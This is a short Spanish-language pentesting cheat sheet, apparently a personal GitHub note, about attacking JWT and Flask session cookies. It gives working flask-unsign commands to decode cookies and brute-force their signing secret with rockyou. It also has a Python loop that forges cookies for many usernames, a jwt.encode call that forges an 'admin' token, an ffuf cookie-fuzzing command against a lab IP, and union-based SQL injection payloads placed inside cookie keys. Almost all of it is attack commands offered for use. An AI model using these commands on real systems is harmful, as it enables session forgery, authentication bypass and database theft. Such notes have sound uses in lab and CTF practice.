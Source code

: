 

# JWT

## ENUMERACIÓN
### CONTENIDO DEL JWT
```shell
❯ pip3 install flask-unsign --break-system-packages
❯ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZ29ya2EifQ.ZyEVpA.7YzfRb0IbiEal6IQICTjI3Uko2U'
```

### FUZZ DE COOKIES
```shell
ffuf -u 'http://10.10.11.160:5000/dashboard' -H 'Cookie: session=FUZZ' -w cookies.txt - mc 200
```


# BRUTE FORCE JWT
### CON FLASK
```shell
❯ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZ29ya2EifQ.ZyEVpA.7YzfRb0IbiEal6IQICTjI3Uko2U' --no-literal-eval
```

### CON SCRIPT
```python
import os
for user in open('/usr/share/seclists/Usernames/Names/names.txt').readlines():
 user = user.rstrip()
 cmd = "flask-unsign --sign --cookie \"{'logged_in': True, 'username':'"+user+"'}\" --secret secret123"
 cookie = os.system(cmd)
```


# CREAR JWT
### CON FLASK
```shell
❯ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
```

### CON PYTHON
```PYTHON
❯ python3
Python 3.11.2 (main, Sep 14 2024, 03:00:30) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> jwt.encode({"username":"admin"},'RrXCv`mrNe!K!4+5`wYq',algorithm='HS256')
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4'
```



# SQLI EN COOKIE

```sql
#COOKIE NORMAL
{"CRAAFTKP":"1", "7DA8SKYP": "1"} 

#UNION SELECT
{"CRAAFTKP'UNION SELECT 1#":"1"}
-----------------------------------
{"CRAAFTKP' UNION SELECT 1,2#":"1"}

#LIMIT
{"CRAAFTKP' UNION SELECT 1,2,3 LIMIT 1,1#":"1"}

#VERSION
{"CRAAFTKP' UNION SELECT 1,version(),3 limit 1,1#":"2"}
```